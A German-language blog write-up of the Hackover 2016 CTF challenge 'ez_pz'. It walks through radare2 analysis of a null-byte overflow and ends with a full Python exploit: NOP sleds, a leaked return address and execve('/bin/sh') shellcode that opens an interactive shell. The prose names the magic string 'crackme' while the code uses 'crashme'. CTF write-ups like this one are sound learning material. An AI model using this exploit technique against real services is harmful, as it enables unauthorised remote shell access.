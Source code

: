 ```yaml
---
title:  "Hackover 2016"
date:   2017-05-01T13:13:13+01:00
draft: false
description: "Dieser Artikel fasst eine CTF challenge vom Hackover 2016 in Hannover zusammen. Benutzte Tools: Python, Netcat, radare2"
toc: false
---
```


Eigentlich wollte ich diesen Artikel schon Ende Oktober 2016 runterschreiben,
kam aber leider noch nicht dazu. Naja, besser spät als nie. Letzten Oktober war
ich auf dem [Hackover](https://hackover.de/) in Hannover. Dieses Mal wurde da
ein phänomenales CTF vom CTF-Team des [Hamburger
CCC](https://www.hamburg.ccc.de/) veranstaltet. Eine der Challenges möchte ich
euch nicht vorenthalten. Da der Server, der das CTF gehandled hat bereits
abgeschaltet worden ist, muss man etwas improvisieren. Am besten dazu eignet
sich eine VM mit GNU/Linux (vorzugsweise Arch Linux natürlich). Dann kann man
die Binary nämlich getrost lokal ausführen mit der folgenden Zeile:

`socat TCP-LISTEN:6666,bind=localhost,reuseaddr,fork EXEC:./ez_pz`

Ob alles geklappt hat kann man mit `gnu-netcat` überprüfen:

![gnu-netcat in action](/img/ez_pz_1.png)

Da wir einen Login-Dialog bekommen hat alles geklappt. Wir sehen etwas
ASCII-Art, ein paar Sprüche und eine Frage:"What's your Name?".
Was aber noch viel wichtiger ist, ist die Speicheraddresse die wir da
sehen (gemeint ist der Hex-String). Diese Adresse wird noch sehr
hilfreich werden. Wenn wir das ganze etwas durchprobieren merken wir,
dass sich diese Adresse immer wieder ändert. Vermutlich ist das unsere
Rücksprungsadresse. Also die Addresse zu der wir später springen müssen
um die Challenge zu beenden. Ok werfen wir einen Blick auf die binary
mit einem meiner Lieblingstools `radare2`:

![radare2 in action](/img/ez_pz_2.png)

Was wir hier sehen ist die `main`-function. Interessant für uns ist hier
allerdings nur der Aufruf: `call sym.chall`. `sym.header` beherbergt
anscheinend nur die Ausgabe des Headers. Diesen Part können wir also
getrost ignorieren. Schauen wir uns also mal `sym.chall` an:

![radare2 in action2](/img/ez_pz_3.png)

Was sofort ins Auge fällt ist folgende Zeile die nicht ins Gesamtbild
passt:

`0x080486b0      6853880408     push str.crashme ; str.crashme ; "crashme" @ 0x8048853`

Anscheinend ist dies unser Magic-String den wir treffen müssen um in die
Funktion `sym.vuln` zu springen. Ansonsten landen wir nur bei dem `nop`
in `0x080486df`. Gut schauen wir uns mal diese `sym.vuln` an. Der Name
ist ja bereits so verräterisch:

![radare2 in action3](/img/ez_pz_4.png)

Anscheinend handled die Application den Null-Terminator falsch. Heißt
wir können eine Eingabe machen, diese mit dem Null-Byte terminieren und
dann weiterschreiben. Alles was wir weiterschreiben wird anscheinend
direkt in den Speicher geschrieben. Anhand dieses Wissens können wir nun
einen exploit komponieren, der alle Voraussetzungen erfüllt und uns dann
eine Shell poppt. Alles was wir machen müssen ist unseren Magic-String
`crackme` zu senden, dann einen Null-Terminator, dann eine `NOP`-Sled in
die wir hereinspringen können, dann die Addresse aus dem Header mit der
wir dann wiederum zu dem Shellcode springen können der gleich hinter
einer weiteren `NOP`-sled liegt.

Das Ergebnis sieht dann mit `Python` zum Beispiel so aus:

```python
#!/usr/bin/env python2
#-*- coding: utf-8 -*-

import sys
import struct
import time
import re
import binascii
import telnetlib


t = telnetlib.Telnet("127.0.0.1", 6666)
data=""

regex = re.compile("0x[0-9a-f]{8}")

data = t.read_very_eager()
print(data)
match = regex.findall(str(data))
tmp = match[0].lstrip("0x").rstrip("\n\0")
rip = binascii.unhexlify(tmp)
print("Matched Address: ", match[0])
rip = struct.unpack(">I", rip)[0]
print("Our RIP: ", hex(rip))


shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload="crashme"            # magic-string zum crashen der application
payload+="\x00"              # Null-Terminator
payload+="\x90" * 18         # 1. Nop-sled
payload+=struct.pack("<I", rip)
payload+="\x90" * 200        # 2. Nop-sled
payload+=shellcode


t.write(payload + "\n")
while True:
  data = t.read_very_eager()
  print(data)
  input = raw_input("CMD> ")
  t.write(input + "\n")

t.close()
```

Zum Schluss muss man nur noch den richtigen Server und port eintragen
und schon poppt eine Shell auf. Voila!
